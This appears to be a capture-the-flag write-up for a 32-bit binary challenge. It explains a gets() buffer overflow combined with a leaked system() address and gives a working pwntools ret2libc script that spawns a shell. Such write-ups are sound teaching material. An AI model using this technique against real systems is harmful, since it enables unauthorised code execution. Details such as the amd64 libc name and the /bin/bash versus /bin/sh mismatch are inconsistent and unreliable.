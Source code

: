 
![task](imgs/1.png)
### Information
It was a warmup challenge, 
We were given a 32bit ELF file.
![task](images/2.jpg)
Running the binary, we can see that it's leaking an address, then asking for an input.
![task](images/3.jpg)

While decompiling using IDA, we can see that the program is leaking system address, then reading an input using gets, and as we know , gets is a dangerous function that leads to buffer overflow.

### Exploitation
- Determine libc version (using [libc blucat](https://libc.blukat.me/) as an example)
- Calculate libc base address
- find /bin/bash address
- system("/bin/bash")
```python
from pwn import *
libc = ELF('libc6_2.30-0ubuntu2_amd64.so')
p = process("./molotov")
system = int("0x"+p.recvline().rstrip("\n"),16)
base = system - libc.symbols['system']
binsh = base + libc.search("/bin/sh").next()
log.warn("base = "+hex(base))
payload = ""
payload += "A"*32
payload += p32(system)
payload += "JUNK"
payload += p32(binsh)
p.sendline(payload)
p.interactive()
```
